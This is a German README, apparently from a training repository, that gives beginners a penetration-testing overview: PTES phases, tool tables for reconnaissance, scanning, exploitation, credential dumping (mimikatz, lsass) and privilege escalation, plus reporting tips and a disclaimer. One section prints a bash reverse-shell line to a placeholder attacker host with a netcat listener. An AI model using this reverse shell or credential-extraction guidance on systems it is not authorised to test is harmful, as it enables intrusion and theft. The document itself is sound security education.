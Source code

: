# 🛡️ Pentest Basics – Einstieg ins Penetration Testing

> Diese Übersicht vermittelt dir die wichtigsten Schritte, Tools und Begriffe für manuelle sowie automatisierte Pentests. Perfekt für Anfänger und zur Prüfungsvorbereitung.

## Inhaltsverzeichnis
- [Pentesting-Phasen (PTES)](#pentesting-phasen-ptes)
- [1. Reconnaissance (Passive Informationsbeschaffung)](#1-reconnaissance-passive-informationsbeschaffung)
- [2. Scanning & Enumeration (Aktive Analyse)](#2-scanning--enumeration-aktive-analyse)
- [3. Exploitation (Angriff)](#3-exploitation-angriff)
- [4. Post-Exploitation](#4-post-exploitation)
- [5. Rechteausweitung (Privilege Escalation)](#5-rechteausweitung-privilege-escalation)
- [Wichtige Tools (Essentials)](#wichtige-tools-essentials)
- [Begriffe & Techniken](#begriffe--techniken)
- [Beispiel: Reverse Shell (Linux Bash)](#beispiel-reverse-shell-linux-bash)
- [Nützliche Links](#nützliche-links)
- [Haftungsausschluss](#haftungsausschluss)



## Pentesting-Phasen (PTES)

1. **Reconnaissance** – Informationsgewinnung  
2. **Scanning & Enumeration** – Zielsysteme identifizieren  
3. **Exploitation** – Schwachstellen ausnutzen  
4. **Post-Exploitation** – Vertiefung und Ausweitung des Zugriffs  
5. **Reporting** – Ergebnisdokumentation



## 1. Reconnaissance (Passive Informationsbeschaffung)

| Tool / Befehl                   | Zweck                                  |
|---------------------------------|----------------------------------------|
| `whois domain.com`              | Whois-Informationen zur Domain         |
| `nslookup`, `dig`               | DNS-Abfragen                           |
| `theHarvester`                  | E-Mail- und Domaininfos sammeln        |
| `shodan.io`                     | IoT- und öffentlich erreichbare Geräte |
| `Google Dorking`                | Spezielle Google-Suchabfragen          |



## 2. Scanning & Enumeration (Aktive Analyse)

### Netzwerkscan

| Tool / Befehl                   | Beschreibung                            |
|---------------------------------|------------------------------------------|
| `nmap -sS 192.168.1.1`          | TCP SYN-Scan                            |
| `nmap -sV -O target.com`        | Version + OS-Erkennung                  |
| `nmap --script vuln`            | Verwundbarkeits-Scan                    |

### Dienste enumerieren

| Tool                  | Zweck                              |
|-----------------------|------------------------------------|
| `enum4linux`          | SMB/NetBIOS-Enumeration            |
| `smbclient`           | Zugriff auf offene SMB-Shares      |
| `ldapsearch`          | LDAP-Abfrage                       |
| `nikto`               | Webserver-Scan (Verwundbarkeiten)  |
| `dirb` / `gobuster`   | Verzeichnisse und Dateien entdecken|



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## 3. Exploitation (Angriff)

| Tool / Technik        | Beschreibung                       |
|-----------------------|-------------------------------------|
| `msfconsole`          | Metasploit-Framework                |
| `searchsploit`        | Exploit-Datenbank (offline)         |
| `python -m http.server` | Dateiserver für Payloads         |
| `sqlmap`              | SQL-Injection automatisieren        |
| `xss`, `csrf`, `rce`  | Gängige Schwachstellen              |



## 4. Post-Exploitation

| Technik / Tool        | Beschreibung                         |
|-----------------------|----------------------------------------|
| `netstat -ano`        | Offene Verbindungen prüfen            |
| `mimikatz`            | Windows-Credentials extrahieren       |
| `lsass` Dumping       | Tokens auslesen                       |
| `linuxprivchecker.py`| Privilege Escalation auf Linux testen |
| `linPEAS`, `winPEAS`  | Automatisiertes PE-Tool               |



## 5. Rechteausweitung (Privilege Escalation)

| Linux                                | Windows                              |
|-------------------------------------|--------------------------------------|
| SUID/SGID Binary-Missbrauch         | Unquoted Service Paths               |
| Schwache Cronjobs                   | AlwaysInstallElevated               |
| `sudo -l`                           | DLL Hijacking                        |
| Kernel-Exploits (Exploit-DB)        | Token-Impersonation                  |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Wichtige Tools (Essentials)

| Tool              | Zweck                                   |
|-------------------|------------------------------------------|
| `Burp Suite`      | Web Application Testing (Proxy, Scanner) |
| `Hydra`, `Medusa` | Brute Force auf Login-Portale            |
| `Netcat`          | Reverse/Bind Shells                      |
| `John`, `Hashcat` | Passwort-Cracking                        |
| `Wireshark`       | Netzwerkverkehr analysieren              |
| `ncat`            | Verschlüsselter Netcat-Ersatz            |



## Begriffe & Techniken

| Begriff         | Bedeutung                                     |
|-----------------|-----------------------------------------------|
| CVE             | Common Vulnerabilities and Exposures         |
| CVSS            | Common Vulnerability Scoring System          |
| PoC             | Proof of Concept (z. B. funktionierender Exploit) |
| Pivoting        | Nutzung eines kompromittierten Systems als Sprungbrett |
| Tunneling       | Verkehr über andere Protokolle/Ports schleusen |



## Beispiel: Reverse Shell (Linux Bash)

```bash
# Opfer (Opfer bekommt Shell):
bash -i >& /dev/tcp/attacker-ip/4444 0>&1

# Angreifer:
nc -lvnp 4444
```



### 🗒️ Reporting Tipps

- Beschreibung der Schwachstelle
- Reproduktionsschritte
- Risiko (CVSS-Score, falls verfügbar)
- Screenshot / Beweis
- Empfehlung zur Behebung



## Nützliche Links

- [Hack The Box](https://www.hackthebox.com/)
- [TryHackMe](https://tryhackme.com/dashboard) 
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [GTFOBins](https://gtfobins.github.io/)
- [Exploit-DB](https://www.exploit-db.com/)
- [Red Team Notes](https://book.hacktricks.wiki/en/index.html)




## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---